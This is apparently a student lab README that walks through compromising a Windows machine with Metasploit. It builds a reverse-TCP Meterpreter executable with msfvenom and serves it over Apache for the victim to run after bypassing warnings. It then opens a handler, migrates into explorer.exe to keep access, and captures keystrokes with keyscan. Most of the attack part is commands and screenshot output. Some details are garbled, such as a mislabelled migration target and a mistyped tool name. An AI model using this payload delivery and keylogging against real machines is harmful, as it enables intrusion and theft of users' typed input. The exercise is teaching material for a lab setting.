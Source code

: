 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/74550efa-b854-40d4-b2ea-efcca695c3a8)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/d7fa5d5a-2d2e-4353-91c0-a264ffd766d5)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/64f9ee47-fe20-476d-8b2f-cbecfb0d9b10)

Start apache server
sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/9de7872b-0606-4bc4-b61b-764fd8f69354)

Check the status of apache2

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/98a71193-fe0b-4b71-8135-5832349c2c8b)

## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/c68b088d-f9ac-494e-89b3-7619dc9a0d1a)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5bd905e1-0784-45cd-85bd-5d4fd6c26187)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/38c8fc01-5d18-453e-bfa3-f891427a73ec)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7ba4fa62-e21e-4f75-a4fc-76f0c60f88bd)

Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/ca529d8a-3722-4ec3-b0ba-f9e09b5d0aa4)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7cd5e8ca-50f0-4759-8f28-cc6ff0527039)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5aa4b149-d48c-46c6-b76f-24de7f2a1987)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/8c13a53a-f912-46fd-8128-f5b7c33fcb09)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2a10708c-b57d-4186-b5d9-11430a205c3e)
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2bcd0bf4-82ea-4c20-ba04-90ba4eb23340)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/404437cd-6710-4752-ac8e-6a859528baad)






















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
